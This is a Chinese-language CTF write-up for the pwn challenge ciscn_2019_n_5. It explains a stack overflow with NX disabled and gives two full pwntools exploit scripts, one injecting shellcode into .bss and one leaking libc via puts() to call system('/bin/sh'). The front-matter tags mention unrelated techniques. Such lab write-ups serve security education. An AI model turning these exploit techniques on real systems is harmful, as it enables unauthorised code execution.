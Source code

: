 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

- ret2shellcode
- libc泄露

<img src="../assets/img/old_imgs/image-20231228140033033.png" alt="image-20231228140033033" style="zoom: 80%;" />

![image-20231228140132298](../assets/img/old_imgs/image-20231228140132298.png)

1. 程序没有开启`NX`保护,并且是`RWX`权限可以运行段上代码
2. 预期解:往`name`中写入`shellcode`,再利用`get`转跳到相应的`.bss`段上运行`shellcode`
3. 非预期解:通过`get`泄露`puts()`地址,泄露`libc`地址,劫持程序流得到`shell`.注意这里`64`位`($rdi)`和`32`位程序传参的不同.

```python
from pwn import*
context(log_level = 'debug', arch = 'amd64', os = 'linux')
shellcode=asm(shellcraft.sh())
p=process('./ciscn_2019_n_5')
p.recvuntil(b'name\n')
p.sendline(shellcode)
p.recvuntil(b'me?\n')
name=0x601080
payload=b'a'*0x28+p64(name)
p.sendline(payload)
p.interactive()
```

```python
from pwn import *
#io = gdb.debug('./ciscn_2019_n_5','b *0x40067a')
context.log_level = 'debug'
io = process('./ciscn_2019_n_5')
#io = gdb.debug('./ciscn_2019_n_5','b main')
elf = ELF('./ciscn_2019_n_5')
Lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')
padding = 0x20
#泄露libc
io.sendlineafter('tell me your name\n',b'1')
#padding+pop_rdi+puts_got+puts_plt+main_addr
payload1 = b'A'*0x28+p64(0x0000000000400713)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])
io.sendlineafter('What do you want to say to me?\n',payload1)
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr ->',hex(puts_addr))
io.sendlineafter('tell me your name\n',b'1')
#payload构造
Liboffset = puts_addr-Lib.sym['puts']
sys_addr = Lib.sym['system']+Liboffset
bin_sh_addr = next(Lib.search(b'/bin/sh'))+Liboffset
payload2 = b'A'*(0x28)+p64(0x0000000000400713)+p64(bin_sh_addr)+p64(0x00000000004004c9)+p64(sys_addr)
io.sendlineafter('What do you want to say to me?\n',payload2)
io.interactive()
```